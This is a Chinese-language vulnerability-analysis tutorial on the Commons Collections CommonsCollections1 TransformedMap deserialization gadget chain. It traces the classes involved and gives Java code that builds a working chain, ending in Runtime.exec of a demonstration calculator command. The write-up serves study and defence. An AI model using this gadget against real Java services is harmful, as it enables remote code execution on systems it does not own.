# CommonsCollections1 - TransformedMap

Commons Collections包为Java标准的Collections API提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。[官方API](https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/index.html)中介绍了各个包下的接口与实现，对于 `org.apache.commons.collections.functors` 包下的功能类，官方描述 `WARNING: from v3.2.2 onwards this several classes in this package will throw an UnsupportedOperationException when trying to serialize or de-serialize an instance to prevent potential remote code execution exploits.` 存在反序列化问题，因此漏洞分析主要围绕这个包展开。

首先对必要的类进行以下说明

## 0x00 PRE 

### AbstractMapDecorator

抽象类 `AbstractMapDecorator `提供一个基础装饰器，允许通过装饰器向 Map 添加附加功能，以下类对其进行了实现。



### Transformer

`org.apache.commons.collections.Transformer` 接口提供 `transform()` 方法，可以接收任何类并原封不动的输出。



## 0x01 sink InvokerTransformer

`Transformer implementation that creates a new object instance by reflection.`该类的主要作用是通过反射创建一个新的对象。



即 `InvokerTransformer#transform()`可以接收任何对象并作为结果返回，可以写出一个命令执行
```java
Transformer transformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});  
transformer.transform(Runtime.getRuntime());
```

但是 Runtime 没有继承 Serializable 接口不可序列化，因此需要改写为反射的写法。

```java
Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
execTransformer.transform(runtime);
```

## 0x02 TransformedMap

接下来继续找调用了`transform()`的方法，可以看到有 `LazyMap` 和 `TransformedMap`。



 `LazyMap` 是 ysoserial 中给出的利用方式之后再分析，先分析通过 `TransformedMap` 类触发的方式，该类存在一个 `checkSetValue()` 方法调用了 `transform()`



`valueTransformer` 通过 `TransformedMap`构造方法赋值。



刚好在 `TransformedMap` 类的 `decorate()、decorateTransform()` 两个 static 方法中调用了该构造方法，所以不用手动去反射写 `TransformedMap` 类。



这里要注意 `TransformedMap` 是对 `AbstractInputCheckedMapDecorator -> AbstractMapDecorator` 抽象类的实现 ，所以构造方法中的 map 不能为 null。



接下来返回去继续找 `TransformedMap#checkSetValue()` 在哪里被调用，发现在`org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry#setValue()` 被调用。而 `MapEntry` 的功能也很简单，对 map 遍历。



总结一下，需要需要做的事情：

1. 调用 `TransformedMap.decorate()` 将之前构造的 Transformer 赋值给 `valueTransformer`
2.  `TransformedMap` 是对  `AbstractInputCheckedMapDecorator`  的抽象实现，直接遍历触发 `TransformedMap#checkSetValue()`

```java
        Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
        Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
        Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
        Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
//        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, execArgs);
        execTransformer.transform(runtime);
        HashMap map = new HashMap();
        map.put("value", "value");
        Map<Object, Object> transMap = TransformedMap.decorate(map, null, execTransformer);
        for (Map.Entry entry : transMap.entrySet()) {
            entry.setValue(runtime);
        }
```

## 0x03 kick-off AnnotationInvocationHandler

反序列化调用链的 sink 和 chain 都构造好后，我们还需要寻找一个 kick-off （即反序列化的入口点）才能形成完整的调用链。需要满足以下条件：

1. 实现了 Serializable 接口，可以序列化
2. 其 readobject() 方法能串联到 chain，即调用了 `MapEntry#setValue()` 的方法

带着这两个条件，定位到 `sun.reflect.annotation.AnnotationInvocationHandler` 这个类，这个类是 sun 包的代码，分析前需要提前引入 [存在漏洞的sun包（jdk<8u71）源码](https://github.com/openjdk/jdk8u) 。


跟进 `readObject()` 方法，看到对 `memberValues` 的值进行遍历。



而 `memberValues` 的值在构造方法中传入。



```java
        Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
        Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
        Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
        Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
//        execTransformer.transform(runtime);
        HashMap map = new HashMap();
        map.put("value", "value");
        Map<Object, Object> transMap = TransformedMap.decorate(map, null, execTransformer);
//        for (Map.Entry entry : transMap.entrySet()) {
//            entry.setValue(runtime);
//        }

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, transMap);
```

对 Gadget 初步改造后为如上形式，但并没有触发命令，跟进调试。

memberTypes 即注解的方法，通过传入Map的 key 值去注解中取，看是否存在相应方法



传入的 `@Override`中不存在方法不满足条件，以 `@Target` 为例，则需要 Map 中存在一个 key 值为 `value`，当然不局限于`@Target`顺便找个有属性的注解都行。





`setValue()` 传入的值是一个新类 `AnnotationTypeMismatchExceptionProxy`，并不是我们的期望类，因此还需要继续向下分析



## 0x04 ConstantTransformer

在前面介绍 `Transformer` 时提到，`interface org.apache.commons.collections.Transformer` 接口提供 `transform()` 方法，接收输入类转化（不变）后输出，而在接口实现类中存在一个 `ConstantTransformer` 类就是做的这件事，因此我们可以通过 `new AnnotationTypeMismatchExceptionProxy` 绕过限制。



## 0x05 ChainedTransformer

`ChainedTransformer#transform()`可以接受一个 `Transform`数组，实现一个递归的 `transform()` 调用，因此最终改写payload



```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"open -a Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

//        Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
//        Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
//        Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
//        Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
//        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
//        execTransformer.transform(runtime);

        HashMap map = new HashMap();
        map.put("value", "value");
        Map<Object, Object> transMap = TransformedMap.decorate(map, null, chainedTransformer);
//        for (Map.Entry entry : transMap.entrySet()) {
//            entry.setValue(runtime);
//        }

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object annotationInvocationHandler = constructor.newInstance(Target.class, transMap);
```


**相关资料**

> 关于 [TransformedMap利用的最早出处](https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478) ，以及长亭的相关分析 [Lib之过？Java反序列化漏洞通用利用分析](https://blog.chaitin.cn/2015-11-11_java_unserialize_rce/) ---- 代码审计星球
>


